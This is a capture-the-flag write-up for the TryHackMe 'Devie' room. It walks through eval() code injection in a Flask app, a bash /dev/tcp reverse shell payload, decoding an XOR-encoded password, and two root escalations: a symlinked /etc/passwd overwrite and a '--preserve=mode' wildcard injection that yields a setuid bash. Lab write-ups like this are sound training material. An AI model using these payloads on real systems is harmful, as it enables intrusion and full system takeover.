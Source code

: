 ```yaml
---
title: THM Devie
author: hanhctf
date: 2023-04-04 22:22:22 +0700
categories: [Write-up, THM]
tags: [eval(), python, code review]
toc: true
mermaid: true
---
```


# [**_Devie room_**](https://tryhackme.com/room/devie)

## Nmap

With rustscan we can see 2 ports are open

```shell
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
5000/tcp open  upnp?   syn-ack
```

## Code review

In port 5000 is Flask application and we can get the source code to review.  
in app.py

```python
@app.route("/")
def bisect(xa,xb):
    added = xa + " + " + xb
    c = eval(added)
    c = int(c)/2
    ya = (int(xa)**6) - int(xa) - 1 #f(a)
    yb = (int(xb)**6) - int(xb) - 1 #f(b)
```

Function **bisect()** use **eval()** function that can be used to achieve authentication bypass and even code injection.

And it's validation on the inputs (in **bisection.py**) just checks they are string fields.

```python
from wtforms import Form, StringField, validators

class InputForm3(Form):
    xa = StringField(default=1,validators=[validators.InputRequired()])
    xb = StringField(default=1,validators=[validators.InputRequired()])
```

==> This can be exploited to run command via passing in a command like

```shell
__import__('os').system('id;whoami')#
```

But we get Code 500 Internal Server Error
![](/commons/THM/Devie/command_inject.png)
![](/commons/THM/Devie/500_internal_server_error.png)

So we run app on local and check.  
In terminal, on dir of source code

```shell
python3 app.py
```

![](/commons/THM/Devie/run_app_on_local.png)

When run code inject on browser ==> Code executed on the backend
![](/commons/THM/Devie/code_excution_on_backend.png)

==> We can get reverse shell with:  

```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"')#
```

![](/commons/THM/Devie/got_reverse_shell.png)

```shell
bruce@devie:~$ id;whoami
id;whoami
uid=1000(bruce) gid=1000(bruce) groups=1000(bruce)
bruce
bruce@devie:~$ 
```

**Got flag1.txt**

## Privilege escalation from _bruce_ --> **gordon**

We found file "note" in home dir of bruce

```
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

Password of **Gordon** encrypt with this flow  
**password** _XOR_ ==> **encrypted** _base64_ ==> **super secure string**

```shell
bruce@devie:~$ sudo -l
sudo -l
Matching Defaults entries for bruce on devie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bruce may run the following commands on devie:
    (gordon) NOPASSWD: /usr/bin/python3 /opt/encrypt.py
```

```shell
bruce@devie:~$ sudo -u gordon /usr/bin/python3 /opt/encrypt.py
sudo -u gordon /usr/bin/python3 /opt/encrypt.py
Enter a password to encrypt: password
AxQDFgUcFwc=
bruce@devie:~$ sudo -u gordon /usr/bin/python3 /opt/encrypt.py
sudo -u gordon /usr/bin/python3 /opt/encrypt.py
Enter a password to encrypt: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
EhQRBBMSBAITBBUKBBgZDhMZDhMSFBEEExIEAhMEFQoEGBkOExkOExI=
```

With cyberchef, we can easy find the **secret_key** ==> Password of Gordon
![](/commons/THM/Devie/secret_key.png)
![](/commons/THM/Devie/passwd_Gordon.png)

**Got flag2.txt**

## Privilege escalation from _gordon_ --> **root**

Use **pspy**, we can see a cronjob

```shell
2023/04/03 09:38:01 CMD: UID=0    PID=24540  | /usr/sbin/CRON -f 
2023/04/03 09:38:01 CMD: UID=0    PID=24542  | /usr/bin/bash /usr/bin/backup 
2023/04/03 09:38:01 CMD: UID=0    PID=24541  | /bin/sh -c /usr/bin/bash /usr/bin/backup 
2023/04/03 09:38:01 CMD: UID=0    PID=24543  | cp report1 report2 report3 /home/gordon/backups/
2023/04/03 09:39:01 CMD: UID=0    PID=24544  | /usr/sbin/CRON -f 
2023/04/03 09:39:01 CMD: UID=0    PID=24546  | /usr/bin/bash /usr/bin/backup 
2023/04/03 09:39:01 CMD: UID=0    PID=24545  | /bin/sh -c /usr/bin/bash /usr/bin/backup 
2023/04/03 09:39:01 CMD: UID=0    PID=24547  | cp report1 report2 report3 /home/gordon/backups/
```

```shell
gordon@devie:~$ cat /usr/bin/backup 
cat /usr/bin/backup
#!/bin/bash

cd /home/gordon/reports/

cp * /home/gordon/backups/

```

### View source code of backup app, we can use 2 methods to get **root**

#### _**Method 1**_ use symbolic link

1. copy /etc/passwd →  /home/gordon/reports
2. add a user have a root permission

```shell
mkpasswd -m sha512crypt
Password: password
$6$eEZqqrBwHGHO/Xun$TcuLtBIraRYkI8gHx4uhV.zyiGapYMZzT02PI4STnSNM8HjNzutZg/vkkbf70I3kpIzaLn9QlPXsnLvTiXRDM.                                                                                                                                                          
echo "hanhctf:\$6\$eEZqqrBwHGHO/Xun\$TcuLtBIraRYkI8gHx4uhV.zyiGapYMZzT02PI4STnSNM8HjNzutZg/vkkbf70I3kpIzaLn9QlPXsnLvTiXRDM.:0:0:hanhctf:/hanhctf:/bin/bash" >> ~/home/gordon/reports/passwd
```

3. remove backups folder in /home/gordon/
4. Create a symbolic link ln -s /etc /home/gordon/backups ⇒ system will auto replace passwd in /home/gordon that added new root user to /etc

```shell
gordon@devie:~$ su hanhctf
su hanhctf
Password: password
root@devie:/home/gordon# id;whoami
id;whoami
uid=0(root) gid=0(root) groups=0(root)
root
root@devie:/home/gordon#
```

#### _**Method 2**_ use wildcard --preserve=mode of **cp**

In  

```shell
cp * /home/gordon/backups/
```

1. If we just use the regular cp command, the ownership and timestamp change, but we don't keep the same permissions.
2. The _--preserve=mode_ allows to maintain the permissions of a file when copying over.

```shell
gordon@devie:~/reports$ cp /bin/bash ./bash && chmod u+s ./bash && echo "" > "--preserve=mode" 
< && chmod u+s ./bash && echo "" > "--preserve=mode"
gordon@devie:~/reports$ ls -la
ls -la
total 1180
drwxrwx--- 2 gordon gordon    4096 Apr  4 01:23  .
drwxr-xr-x 4 gordon gordon    4096 Apr  4 01:21  ..
-rwsr-xr-x 1 gordon gordon 1183448 Apr  4 01:23  bash
-rw-rw-r-- 1 gordon gordon       1 Apr  4 01:23 '--preserve=mode'
-rw-r--r-- 1    640 gordon      57 Feb 19 23:31  report1
-rw-r--r-- 1    640 gordon      72 Feb 19 23:32  report2
-rw-r--r-- 1    640 gordon     100 Feb 19 23:33  report3
gordon@devie:~/reports$ cd ../backups
cd ../backups
gordon@devie:~/backups$ ls -la
ls -la
total 1180
drwxrwx--- 2 gordon gordon    4096 Apr  4 01:24 .
drwxr-xr-x 4 gordon gordon    4096 Apr  4 01:21 ..
-rwsr-xr-x 1 root   root   1183448 Apr  4 01:30 bash
-rw-r--r-- 1 root   root      2090 Apr  4 01:22 passwd
-rw-r--r-- 1 root   root        57 Apr  4 01:30 report1
-rw-r--r-- 1 root   root        72 Apr  4 01:30 report2
-rw-r--r-- 1 root   root       100 Apr  4 01:30 report3
gordon@devie:~/backups$ ./bash -p
./bash -p
bash-5.0# id;whoami
id;whoami
uid=1001(gordon) gid=1001(gordon) euid=0(root) groups=1001(gordon)
root
bash-5.0# 
```

**Got root.txt**
